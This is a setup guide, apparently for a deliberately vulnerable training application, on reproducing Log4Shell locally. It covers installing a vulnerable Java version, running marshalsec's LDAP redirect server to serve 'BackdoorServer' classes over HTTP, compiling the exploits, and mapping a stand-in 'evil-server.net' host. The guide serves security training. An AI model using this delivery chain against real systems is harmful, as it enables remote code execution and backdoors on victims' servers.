 # Setting up exploitation of Log4Shell manually

**Prerequisites:**

* Python 3 or higher

**NOTE:** if you don't want the hassle of setting all of this up, you can use the very simple Docker setup, as described [here](log4shell_exploitation_setup_docker.md)!

For exploiting Log4Shell you'll need a few things:

* an instance of the Insecure Bank application, running on a vulnerable JVM version, e.g. `OpenJDK 1.8.0_181`
* an LDAP server providing a redirect to an HTTP server for loading the malicious Java code to be executed
* an HTTP server serving said malicious Java code
* built versions of the actual malicious Java code (exploits)
* (optional) a DNS entry pointing an "evil server" domain name to your LDAP server for more "realistic" payloads

## Vulnerable JVM version

Installing a vulnerable Java version, e.g. `OpenJDK 1.8.0_181`, can be done as explained in the next sections.

### Arch-based Linux

Download, install and configure `OpenJDK 1.8.0_181`:

```console
wget https://github.com/AdoptOpenJDK/openjdk8-binaries/releases/download/jdk8u181-b13/OpenJDK8U-jdk_x64_linux_hotspot_8u181b13.tar.gz
sudo tar xzf OpenJDK8U-jdk_x64_linux_hotspot_8u181b13.tar.gz -C /usr/lib/jvm
sudo archlinux-java set jdk8u181-b13
```

Check if version is set correctly:

```console
$ java -version && javac -version
openjdk version "1.8.0_181"
OpenJDK Runtime Environment (AdoptOpenJDK)(build 1.8.0_181-b13)
OpenJDK 64-Bit Server VM (AdoptOpenJDK)(build 25.181-b13, mixed mode)
javac 1.8.0_181
```

If needed, change Java version back and check again:

```console
$ sudo archlinux-java set java-11-openjdk
$ archlinux-java status
openjdk version "11.0.14" 2022-01-18
OpenJDK Runtime Environment (build 11.0.14+9-post-Debian-1deb11u1)
OpenJDK 64-Bit Server VM (build 11.0.14+9-post-Debian-1deb11u1, mixed mode, sharing)
javac 11.0.14
```

### Debian-based Linux

Download, install and configure `OpenJDK 1.8.0_181`:

```console
wget https://github.com/AdoptOpenJDK/openjdk8-binaries/releases/download/jdk8u181-b13/OpenJDK8U-jdk_x64_linux_hotspot_8u181b13.tar.gz
sudo mkdir /usr/lib/jvm
sudo tar xvf OpenJDK8U-jdk_x64_linux_hotspot_8u181b13.tar.gz -C /usr/lib/jvm
sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/jdk8u181-b13/bin/java 1000
sudo update-alternatives --install /usr/bin/javac javac /usr/lib/jvm/jdk8u181-b13/bin/javac 1000
sudo update-alternatives --set java /usr/lib/jvm/jdk8u181-b13/bin/java
sudo update-alternatives --set javac /usr/lib/jvm/jdk8u181-b13/bin/javac
```

Check if version is set correctly:

```console
$ java -version && javac -version
openjdk version "1.8.0_181"
OpenJDK Runtime Environment (AdoptOpenJDK)(build 1.8.0_181-b13)
OpenJDK 64-Bit Server VM (AdoptOpenJDK)(build 25.181-b13, mixed mode)
javac 1.8.0_181
```

If needed, change Java version back and check again:

```console
$ sudo update-alternatives --set java /usr/lib/jvm/java-11-openjdk-amd64/bin/java
$ sudo update-alternatives --set javac /usr/lib/jvm/java-11-openjdk-amd64/bin/javac
$ java -version && javac -version
openjdk version "11.0.14" 2022-01-18
OpenJDK Runtime Environment (build 11.0.14+9-post-Debian-1deb11u1)
OpenJDK 64-Bit Server VM (build 11.0.14+9-post-Debian-1deb11u1, mixed mode, sharing)
javac 11.0.14
```

## LDAP server

As LDAP server we'll use `marshalsec` here (<https://github.com/mbechler/marshalsec>), which is located in the `marshalsec` folder already.

Build `marshalsec`:

```console
cd marshalsec
mvn clean package
```

Running `marshalsec` works as follows:

```console
cd marshalsec
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<http_host>:<http_port>/#<malicious_java_class>" <ldap_port>
```

requiring this information:

* `<http_host>:<http_port>`: host and port where HTTP server providing malicious Java code is running (e.g. `localhost:9876`)
* `<malicious_java_class>`: class name of malicious Java class that should be loaded from HTTP server (e.g. `BackdoorServer`)
* `<ldap_port>`: port on which this LDAP server listening, which is relevant for exploit payload used in attack (e.g. `1389`)

Serving the exploits in this repository via LDAP server instances can be achieved as follows (in seperate terminals):

```console
cd marshalsec
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:9876/#BackdoorServer" 1389
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:9876/#BackdoorServerV2" 1390
```

## HTTP server

As HTTP server we'll use the simple python3-internal HTTP server, which can be run as follows (serving files in `exploits` directory on port `9876`):

```console
cd exploits
python3 -m http.server --bind 0.0.0.0 9876
```

## Built Log4Shell exploits

Building the exploits:

```console
cd exploits
javac -cp javax.servlet-api-3.1.0.jar *.java
```

## Evil server DNS entry pointing towards LDAP server

If you want real "evil server domain names" for suggesting attacker controlled remotely located servers, you can adapt your `/etc/hosts` file as follows (on the machine which runs Insecure Bank):

```console
sudo nano /etc/hosts
ADD
        127.0.0.1       evil-server.net
```

**Pro-tip:** you can use the exact same approach for using any arbitrary domain name to point to your (e.g. local) installation of Insecure Bank, as follows:

```console
sudo nano /etc/hosts
ADD
        127.0.0.1       insecure-bank.com
```
